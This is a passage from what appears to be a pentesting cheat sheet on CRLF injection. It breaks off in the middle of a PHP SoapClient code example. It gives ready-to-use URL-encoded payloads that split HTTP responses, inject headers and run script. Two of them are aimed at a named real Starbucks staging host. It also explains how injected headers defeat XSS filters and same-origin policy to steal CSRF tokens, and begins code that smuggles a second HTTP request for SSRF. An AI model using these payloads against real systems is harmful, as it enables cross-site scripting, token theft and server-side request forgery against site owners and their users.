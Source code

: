 And the server responses with the header:

```text
Location: http://myweb.com
```

**Other example: \(from** [**https://www.acunetix.com/websitesecurity/crlf-injection/**](https://www.acunetix.com/websitesecurity/crlf-injection/)**\)**

```text
http://www.example.com/somepage.php?page=%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0aContent-Length:%2025%0d%0a%0d%0a%3Cscript%3Ealert(1)%3C/script%3E
```

#### In URL Path

You can send the payload **inside the URL path** to control the **response** from the server:

```text
http://stagecafrstore.starbucks.com/%3f%0d%0aLocation:%0d%0aContent-Type:text/html%0d%0aX-XSS-Protection%3a0%0d%0a%0d%0a%3Cscript%3Ealert%28document.domain%29%3C/script%3E
http://stagecafrstore.starbucks.com/%3f%0D%0ALocation://x:1%0D%0AContent-Type:text/html%0D%0AX-XSS-Protection%3a0%0D%0A%0D%0A%3Cscript%3Ealert(document.domain)%3C/script%3E
```

{% embed url="https://github.com/EdOverflow/bugbounty-cheatsheet/blob/master/cheatsheets/crlf.md" caption="" %}

### HTTP Header Injection

#### Description

By exploiting a CRLF injection an attacker can also insert HTTP headers which could be used to defeat security mechanisms such as a browser's XSS filter or the same-origin-policy. This allows the attacker to gain sensitive information like CSRF tokens. He can also set cookies which could be exploited by logging the victim in the attacker's account or by exploiting otherwise unexploitable [cross-site scripting \(XSS\) vulnerabilities](https://www.netsparker.com/blog/web-security/cross-site-scripting-xss/).

#### An example of HTTP Header Injection to extract sensitive data

If an attacker is able to inject the HTTP headers that activate CORS \(Cross Origin Resource Sharing\), he can use javascript to access resources that are otherwise protected by SOP \(Same Origin Policy\) which prevents sites from different origins to access each other.

### New HTTP request in SSRF

Abusing CRLF injection you can **craft a new HTTP request and inject it**.  
A good example can be done using the `SoapClient` deserialization gadget from in PHP. This class is **vulnerable to CRLF** inside the `user_agent` parameter allowing to i**nsert new headers and body content**. However, you can even be able to abuse this vulnerability to **inject a new HTTP request:**

```php
$target = 'http://127.0.0.1:9090/test'; 
$post_string = 'variable=post value';
$crlf = array(
    'POST /proxy HTTP/1.1',
    'Host: local.host.htb',
    'Cookie: PHPSESSID=[PHPSESSID]',
    'Content-Type: application/x-www-form-urlencoded',
    'Content-Length: '.(string)strlen($post_string),
    "\r\n",
    $post_string
);

$client = new SoapClient(null,
    array(
```